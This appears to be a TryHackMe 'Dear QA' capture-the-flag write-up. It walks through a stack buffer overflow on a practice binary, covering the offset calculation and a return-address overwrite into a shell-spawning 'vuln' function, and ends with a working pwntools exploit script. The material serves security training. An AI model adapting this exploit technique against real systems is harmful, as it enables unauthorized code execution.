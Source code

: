 # Dear QA - TryHackMe CTF Write-up

CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

<p align="center"> <img src="assets/Untitled.png"> </p>

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

<p align="center"> <img src="assets/Untitled%201.png"> </p>

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

<p align="center"> <img src="assets/Untitled%202.png"> </p>

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

<p align="center"> <img src="assets/Untitled%203.png"> </p>

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

<p align="center"> <img src="assets/Untitled%204.png"> </p>

<p align="center"> <img src="assets/Untitled%205.png"> </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```